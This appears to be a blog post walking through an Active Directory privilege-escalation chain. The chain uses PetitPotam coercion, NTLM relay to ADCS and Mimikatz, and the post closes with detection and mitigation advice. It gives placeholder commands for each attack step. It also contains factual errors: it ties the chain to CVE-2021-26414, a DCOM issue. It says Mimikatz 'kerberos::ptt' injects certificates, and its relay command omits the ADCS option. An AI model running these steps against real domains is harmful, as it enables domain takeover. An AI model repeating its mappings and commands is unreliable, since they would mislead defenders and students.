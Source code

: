```yaml
---
title: "Exploiting CVE-2021-26414: PetitPotam, ADCS, and Domain Compromise"
published: 2025-04-18
updated: 2025-04-18
description: 'A deep dive into the CVE-2021-26414 exploit chain: PetitPotam, NTLM relay attacks, and ADCS misconfigurations for privilege escalation.'
image: ''
tags: ['CVEs']
category: 'Active Directory Attacks'
draft: false
lang: 'ar-eng'
---
```



## **Table of Contents**  
1. Introduction to CVE-2021-26414: A Critical Privilege Escalation Vulnerability
2. Understanding the Vulnerability: PetitPotam and ADCS Misconfiguration 
3. Exploitation Mechanism of CVE-2021-26414**  
4. Step-by-Step Exploitation Process
5. Post-Exploitation: Gaining Domain Admin Privileges
6. Detection Strategies for CVE-2021-26414
7. Mitigation and Best Practices to Prevent Exploitation
8. onclusion and Key Takeaways 
9. References for Further Readin


> **⚠️ Caution:** #FreePalestine

---

**CVE-2021-26414** is a **privilege escalation vulnerability** that leverages a combination of **PetitPotam** (which exploits the **MS-EFSRPC** protocol) and **Active Directory Certificate Services (ADCS)**. The vulnerability allows an attacker to escalate their privileges to **Domain Admin** (DA) by exploiting **NTLM relay attacks** and **ADCS misconfigurations**. This vulnerability primarily affects **Windows Server versions** and can lead to full domain compromise.

### **`PetitPotam Overview`**

PetitPotam exploits the **Microsoft Encrypting File System Remote Protocol (MS-EFSRPC)**, which is used for **file encryption and decryption** on Windows machines. This protocol can be abused to force a machine to authenticate via **NTLM** and can lead to **NTLM relay attacks** when the **MS-EFSRPC** service is misconfigured.

### **`ADCS Overview`**

**Active Directory Certificate Services (ADCS)** is a service that allows an organization to issue **public key certificates** for users, devices, and services within a **Windows domain**. If ADCS is improperly configured, an attacker can request certificates they are not authorized for, enabling them to impersonate high-privilege accounts like **Domain Admins**.

### `**2. Exploitation Mechanism**`

### **PetitPotam Tool: Abusing MS-EFSRPC for NTLM Authentication Relay**

1. **PetitPotam** abuses the **MS-EFSRPC** protocol by forcing a vulnerable **domain controller** (DC) or **Windows machine** to authenticate using **NTLM authentication**. The tool makes the target system request NTLM authentication, which can then be intercepted and relayed.
2. The attacker uses a tool like **Impacket's `ntlmrelayx.py`** to **relay the NTLM hash** to an **Active Directory Certificate Services (ADCS)** server.
3. **ADCS** can be misconfigured in such a way that it issues certificates to unauthorized users. By relaying the NTLM authentication to the **ADCS server**, the attacker can impersonate **Domain Admins**.

---

### **`3. Step-by-Step Exploitation of CVE-2021-26414`**

### **Step 1: Attacker’s Setup**

The attacker needs a **low-privileged user account** within the domain, and the **target system** (usually the **Domain Controller** or a machine communicating with ADCS) must have the **MS-EFSRPC** service running and vulnerable to the PetitPotam attack.

### **Step 2: Triggering MS-EFSRPC Authentication**

The **PetitPotam** tool will exploit the **MS-EFSRPC** vulnerability to trigger NTLM authentication. PetitPotam forces the **target system** to authenticate with NTLM, making it vulnerable to relay attacks.

### **`Command to Run PetitPotam**:`

```abap
# Running PetitPotam tool to trigger NTLM authentication relay
python3 petitpotam.py <target-dc-ip> <attacker-ip>

```

- **<target-dc-ip>**: IP address of the **Domain Controller** or the vulnerable system.
- **<attacker-ip>**: IP address of the attacker’s machine.

This sends an **NTLM authentication request** to the attacker's machine.

### **`Step 3: Relay NTLM Authentication to ADCS Server`**

Once the **NTLM request** is triggered, the attacker can use **Impacket's `ntlmrelayx.py`** to **relay** the authentication to the **ADCS server**.

### **Impacket Relay Command**:

```abap
Use ntlmrelayx to relay NTLM authentication to ADCS server

python3 [ntlmrelayx.py](http://ntlmrelayx.py/) -t http://<adcs-server>/certsrv
```

- **<adcs-server>**: The IP address or hostname of the **ADCS server**.

This step **relays the NTLM hash** from the DC to the ADCS server, where the attacker can **request a certificate**.

### **`Step 4: Request Certificate with Relayed NTLM Authentication`**

By exploiting the **NTLM relay**, the attacker gets a **certificate** from the ADCS server that can be used to impersonate a **Domain Admin**.

If **ADCS** is improperly configured and doesn't restrict certificate requests, the attacker can request a certificate for any **privileged account** (like **Domain Admin**).

---

### **`Post-Exploitation: Impersonating Domain Admin`**

Once the attacker receives the **privileged certificate**, they can use tools like **Mimikatz** to inject it into their **Kerberos ticket cache**.

### **Mimikatz Command to Inject Certificate**:

```abap
# Inject the certificate into the Kerberos ticket cache
mimikatz.exe "kerberos::ptt <certificate-file>"

```

This allows the attacker to **authenticate** as the **Domain Admin** and gain **Domain Admin privileges**.

---

### **`5. Detection and Mitigation`**

### **Detection**

1. **Event Logs (Event ID 4648)**:
    - When an **NTLM authentication request** is made with explicit credentials, **Event ID 4648** is generated. This event can help identify unauthorized NTLM authentication attempts.
2. **Network Traffic Monitoring**:
    - Watch for unusual **RPC** or **SMB** traffic patterns. This is particularly important to detect **NTLM relay attempts** and **PetitPotam abuse**.
3. **Monitoring Certificate Requests**:
    - Monitor certificate requests from machines that are not **authorized** to request privileged certificates. **ADCS logging** can help identify when **unauthorized certificate requests** are made.
4. **SMB and RPC Anomalies**:
    - Look for anomalies in **SMB** or **RPC** traffic, especially **NTLM authentication relays** that target **ADCS servers**.

### **Mitigation**

1. **Apply Microsoft’s March 2022 Patch**:
    - Microsoft released a patch to fix **CVE-2021-26414**. Ensure that the patch is applied to **all Windows servers** running **MS-EFSRPC** and **ADCS**.
2. **Disable MS-EFSRPC if Not Required**:
    - If **MS-EFSRPC** is not needed for your environment, **disable the service** to prevent exploitation.
3. **Restrict Access to ADCS**:
    - Limit who can request certificates from the **ADCS server** by applying proper **role-based access control**. Ensure that only **authorized accounts** (e.g., **Domain Admins**) can request certificates.
4. **Force SMB Signing**:
    - **SMB signing** ensures that SMB traffic cannot be **intercepted** or **modified**, which helps prevent **NTLM relay attacks**.
5. **Enforce NTLMv2**:
    - Disable **NTLMv1** and enforce **NTLMv2** in your domain to mitigate relay attacks that rely on **NTLM**.
6. **Audit and Restrict SMB Permissions**:
    - Audit and restrict **SMB shares** to prevent unauthorized access. **SMB permissions** should be tightly controlled.

---

### **`6. Conclusion and Key Takeaways`**

**CVE-2021-26414 (PetitPotam + ADCS)** is a serious **privilege escalation** vulnerability in Windows domains. By exploiting the **MS-EFSRPC** protocol via **PetitPotam** and relaying the **NTLM authentication** to a **misconfigured ADCS server**, attackers can obtain **Domain Admin** privileges.

To prevent such attacks, organizations should **apply patches**, **disable unnecessary services**, and carefully **audit** their Active Directory environments for misconfigurations. Monitoring **network traffic** and **event logs** for signs of exploitation is crucial for early detection.

---

### `**References for Further Reading**`

- [**Microsoft Security Advisory CVE-2021-26414**](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-26414)
- [**PetitPotam Tool** (GitHub)](https://github.com/fireshare/PetitPotam)
- [**Impacket NTLM Relay** (GitHub)](https://github.com/SecureAuthCorp/impacket)
- [**Mimikatz GitHub**](https://github.com/gentilkiwi/mimikatz)